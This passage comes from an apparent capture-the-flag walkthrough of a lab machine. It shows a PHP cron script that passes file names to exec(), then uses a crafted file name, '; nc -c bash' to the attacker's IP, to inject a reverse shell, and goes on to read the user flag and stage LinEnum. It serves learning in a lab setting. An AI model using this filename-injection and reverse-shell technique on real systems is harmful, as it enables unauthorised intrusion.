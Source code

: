     exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
{% endhighlight %}

It scans for all files in the `/var/www/html/uploads` folder, extract the file names without the extensions and check each one of them if they match the naming format that `upload.php` uses, which means that it has to look like `10_10_XXX_XXX.png` or `127_0_0_1.png`. And if they don't, it will be logged as an attack attempt and certain commands will be executed. 

The best part? Looks like we can inject some commands using the `$value` variable, which is the filename of the file. Lets create another listener
{% highlight bash %}
$ nc -lvnp 1338
listening on [any] 1338 ...
{% endhighlight %}

and create a file in `/var/www/html/uploads/` with a very specially crafted name.
```
sh-4.2$ touch "/var/www/html/uploads/; nc -c bash 10.10.XXX.XXX 1338;"
```

With this file name, it will definitely be logged as an attack attempt and trigger the command to be executed.

# user.txt

After a while (due to the `check_attack.php` running every 3 minutes), we get a shell.
{% highlight bash %}
connect to [10.10.XXX.XXX] from (UNKNOWN) [10.10.10.146] 39656
python -c 'import pty; pty.spawn("/bin/bash")'
[guly@networked ~]$ cat user.txt
526cXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

To quickly enumerate for possible privilege escalation vectors, I will using [LinEnum](https://github.com/rebootuser/LinEnum). To transfer it from my machine to this machine, I will be using `python`'s `SimpleHTTPServer` module.

On my machine:
{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/Downloads/LinEnum.sh .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}
